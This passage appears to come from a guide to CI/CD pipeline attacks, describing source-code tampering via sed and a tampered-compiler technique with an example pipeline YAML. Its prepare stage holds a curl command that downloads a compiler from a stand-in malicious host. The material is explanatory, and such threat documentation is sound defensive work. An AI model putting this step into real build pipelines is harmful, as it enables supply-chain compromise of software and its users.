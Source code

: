 
In the provided example pipeline, the misconfigured "prepare" stage includes a command that uses `sed` to replace occurrences of "old_code" with "malicious_code" in the `main.js` file. This modification happens just before the build process starts, allowing the attacker to inject their code without leaving traces in the repository.


1. Tampered compiler – Changing the compiler in the build environment to introduce the malicious code without leaving any traces before that process begins.


Example Pipeline with Misconfiguration:

```
---
stages:
  - prepare
  - build
  - deploy

prepare:
  stage: prepare
  script:
    - echo "Preparing the environment"
    # Misconfiguration where the attacker replaces the compiler with a tampered version
    - curl -o compiler https://evil-compiler.com

build:
  stage: build
  script:
    - echo "Building the application"
    # Use the tampered compiler to build the code

deploy:
  stage: deploy
  script:
    - echo "Deploying the application"
    # Perform deployment actions
```

In the provided example pipeline, the misconfigured "prepare" stage includes a command that downloads a compiler from a malicious source (`https://evil-compiler.com`) and replaces the legitimate compiler in the build environment. This tampered compiler can inject malicious code into the build process without leaving any traces before the build begins.



### Reconfigure branch protections

<img style="background: white" src="../../images/unprotected.drawio.png">
